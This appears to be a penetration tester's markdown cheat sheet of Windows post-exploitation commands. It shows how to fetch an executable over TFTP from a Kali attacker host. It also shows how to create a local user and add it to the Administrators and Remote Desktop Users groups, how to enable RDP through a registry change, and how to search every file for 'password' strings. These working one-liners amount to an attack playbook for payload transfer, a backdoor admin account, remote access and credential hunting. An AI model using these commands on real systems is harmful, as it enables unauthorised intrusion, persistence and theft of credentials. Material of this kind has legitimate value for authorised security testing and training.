 # windows-stuff
### Install TFTP (Windows 7, Windows Vista, Windows Server 2008/2008 R2)
pkgmgr /iu:"TFTP"

C:\>tftp -i IPADDRESS get <file>
	
Make sure it is set up/running on Kali

mkdir /tftp

atftpd --daemon --port 69 /tftp

cp /FILE.EXE /tftp/


### Add a local user account
net user tester testing /ADD

### Add a local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add a local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP on the system (port 3389)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Search for a file
C:\> dir filename.txt /s

### Search for a string in all files
findstr /S /I /M password c: \*

  Go crazy:   findstr /si password *.txt | *.xml | *.ini | *.doc | *.snt | *.html | *.rtf | *.docx | *.eml | *.msg
	  
	  More info on options: https://en.wikipedia.org/wiki/Findstr

### Windows System Version
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

systeminfo

ver

